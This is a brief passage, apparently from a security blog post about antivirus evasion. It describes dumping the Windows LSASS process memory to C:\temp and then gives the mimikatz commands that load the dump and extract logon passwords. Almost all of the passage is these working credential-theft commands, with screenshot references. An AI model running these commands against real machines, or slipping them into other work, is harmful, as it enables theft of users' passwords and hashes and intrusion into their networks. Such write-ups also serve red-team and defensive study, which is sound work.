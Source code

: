 As you can see, `lsass.dmp` gets dumped to the working directory: `C:\\temp\`.     

Then, open `mimikatz` load in the dump file and dump passwords:      

```powershell
.\mimikatz.exe
sekurlsa::minidump c:\temp\lsass.dmp
sekurlsa::logonpasswords
```

![av-evasion](/assets/images/95/2023-05-11_16-28_1.png){:class="img-responsive"}      
